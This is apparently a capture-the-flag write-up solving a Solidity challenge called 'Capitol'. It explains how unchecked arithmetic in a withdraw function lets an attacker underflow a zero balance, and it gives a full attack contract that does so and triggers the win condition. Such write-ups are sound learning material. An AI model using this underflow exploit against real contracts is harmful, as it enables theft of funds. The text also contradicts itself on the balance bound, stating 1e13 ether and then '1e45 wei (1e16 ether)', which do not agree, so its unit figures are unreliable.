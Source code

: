 * **`depositCredit(uint256 _amount)`** :
  * Requires `_amount > 1 ether` and `msg.value == _amount`.
  * Uses `unchecked` to bypass overflow checks, allowing arbitrary balance increases.
* **`withdrawCredit(uint256 _amount)`** :
  * Allows withdrawing funds without checking if the user has sufficient balance (due to `unchecked`), leading to **underflows** .
*   **`richerThanOwner()`** :

    * Sets `isRicher = true` if the caller's balance exceeds the owner's (`1e9 ether`) but is below `1e13 ether`.



So how to exploit? Our goal is to make the user's balance exceed the owner's (`1e9 ether`) but stay below `1e13 ether`. The exploit leverages **underflow** and **unchecked arithmetic** .

#### **How our`Attack.sol` Works**

1. **Exploit Underflow** :
   * The attacker calls `withdrawCredit(type(uint256).max - 1e27)` with a balance of `0`.
   * Calculation:\
     `0 - (type(uint256).max - 1e27)`\
     \= `1e27 + 1` (due to underflow, as `type(uint256).max + 1 = 0` in Solidity).
2. **Resulting Balance** :
   * Attacker's balance becomes `1e27 + 1 wei` (\~1e9 ether + 1 wei), which is **just above the owner's balance** (`1e27 wei`).
3. **Trigger `richerThanOwner`** :
   * The attacker's balance (`1e27 + 1 wei`) is:
     * Greater than the owner's balance (`1e27 wei`).
     * Less than `1e45 wei` (1e16 ether).
   * This sets `isRicher = true`, solving the challenge.

Here is the attack contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface Capitol {
    function withdrawCredit(uint256 _amount) external;
    function richerThanOwner() external;
}

contract Attack {
    Capitol public capitol;

    constructor(address _capitol) {
        capitol = Capitol(_capitol);
        // Underflow the balance to 1e27 + 1
        capitol.withdrawCredit(type(uint256).max - 1e27);
        // Trigger the check to set isRicher to true
        capitol.richerThanOwner();
    }
}
```
